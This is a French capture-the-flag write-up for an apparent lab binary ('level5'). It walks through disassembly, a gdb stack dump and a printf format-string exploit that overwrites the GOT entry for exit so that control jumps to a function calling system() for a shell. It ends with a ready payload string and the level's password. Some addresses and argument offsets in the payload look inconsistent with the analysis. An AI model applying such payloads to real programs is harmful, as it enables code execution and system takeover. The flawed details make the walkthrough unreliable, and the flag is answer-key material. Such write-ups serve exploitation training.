 format string + change ret address point to `o`

```
080484a4 <o>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	83 ec 18             	sub    esp,0x18
 80484aa:	c7 04 24 f0 85 04 08 	mov    DWORD PTR [esp],0x80485f0
 80484b1:	e8 fa fe ff ff       	call   80483b0 <system@plt>
 80484b6:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 80484bd:	e8 ce fe ff ff       	call   8048390 <_exit@plt>

080484c2 <n>:
 80484c2:	55                   	push   ebp
 80484c3:	89 e5                	mov    ebp,esp
 80484c5:	81 ec 18 02 00 00    	sub    esp,0x218
 80484cb:	a1 48 98 04 08       	mov    eax,ds:0x8049848
 80484d0:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484d4:	c7 44 24 04 00 02 00 	mov    DWORD PTR [esp+0x4],0x200
 80484db:	00 
 80484dc:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484e2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e5:	e8 b6 fe ff ff       	call   80483a0 <fgets@plt>
 80484ea:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484f0:	89 04 24             	mov    DWORD PTR [esp],eax
 80484f3:	e8 88 fe ff ff       	call   8048380 <printf@plt>
 80484f8:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 80484ff:	e8 cc fe ff ff       	call   80483d0 <exit@plt>

08048504 <main>:
 8048504:	55                   	push   ebp
 8048505:	89 e5                	mov    ebp,esp
 8048507:	83 e4 f0             	and    esp,0xfffffff0
 804850a:	e8 b3 ff ff ff       	call   80484c2 <n>
 804850f:	c9                   	leave  
 8048510:	c3                   	ret    
```

Étapes :
1. Aller chercher l'adresse `80484f8` dans la stack
2. Écrire sur l'adresse `080484a4` (la fonction `o`) grâce à une format string.
3. Profiter du shell.

Une fois dans la fonction `printf`, voici l'état de la stack avec `AAAA` en input :
```
(gdb) x/90xw $sp
0xbffff504:	0xb7fff918	0x00000000	0x080484f8	0xbffff520
0xbffff514:	0x00000200	0xb7fd1ac0	0xb7ff37d0	0x41414141
```

On peut remarquer notre adresse en 3e élément, puis en 8e élément notre input. L'objectif est d'écrire avec %n sur le 3e.

`%x` affiche 0x200, soit la 5e adresse. Il faut donc trouver un moyen d'écrire en arrière. Impossible !

Oui, donc une autre technique s'offre à nous, changer l'adresse de la fonction `exit` dans la GOT (Global Offset Table), qui contient les adresses à resolve pour appeler les fonctions attendues.

Dans `objdump -R ./level5`, on peut y lire `08049838 R_386_JUMP_SLOT   exit`.
On connait donc l'adresse de la fonction exit dans la GOT.

Maintenant, écrivons notre exploit. Même délire que dans l'exercice précédent, on doit écrire dans :
- `08049838`
- `08049840`

l'adresse de `o`, donc `0x080484a4`.

On a donc :
- `\x38\x98\x04\x08` l'adresse qui va contenir les bits les plus faibles
- `\x40\x98\x04\x08` l'adresse qui va contenir les bits les plus forts
- `0x0804` = 2052, donc `0x07fc` (2044)
- `0x84a4` = 33956, donc `0x7ca0` (31904)

Il faudra donc commencer par écrire l'adresse à `0x40`, puis à `0x38`.

`\x40\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn`

Password: `d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31`